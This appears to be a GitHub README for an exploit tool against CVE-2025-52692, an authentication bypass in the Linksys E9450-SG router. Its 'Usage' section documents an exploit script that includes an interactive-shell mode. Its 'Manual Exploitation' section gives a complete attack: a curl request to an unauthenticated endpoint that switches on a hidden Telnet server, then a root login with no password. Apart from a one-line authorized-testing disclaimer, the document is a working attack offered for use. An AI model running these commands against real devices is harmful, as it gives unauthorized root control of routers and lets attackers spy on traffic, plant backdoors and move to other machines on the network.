

# CVE-2025-52692

**Linksys E9450-SG Authentication Bypass**

## Overview

Authentication bypass enabling hidden Telnet server with root access.

| Field | Value |
|-------|-------|
| Product | Linksys E9450-SG |
| Firmware | 1.2.00.052 |
| CVSS | 8.8 (High) |
| Type | Authentication Bypass |
| Vector | HTTP GET (LAN) |
| Impact | Full Root Access |

## Attack Flow



## Technical Details

The vulnerability is a logic error in URL processing. The endpoint `/LOGIN/API/obj/en_telnet` can be accessed without authentication and silently enables the router's hidden Telnet server.

**Impact:**
- Eavesdrop on network traffic
- Install malware/backdoors
- Pivot to other network devices

## Usage

```bash
python exploit.py <router_ip>

python exploit.py 192.168.1.1 --check-only

python exploit.py 192.168.1.1 --interactive
```

## Parameters

| Flag | Description | Default |
|------|-------------|---------|
| `-p, --port` | HTTP port | 80 |
| `-t, --timeout` | Connection timeout | 10 |
| `--interactive` | Get interactive shell | off |
| `--check-only` | Only check if vulnerable | off |

## Requirements

```
requests
```

## Manual Exploitation

```bash
curl http://<router_ip>/LOGIN/API/obj/en_telnet

telnet <router_ip> 23
# Login: root (no password)
```

## Disclaimer

For authorized security testing only. Device is EOL.
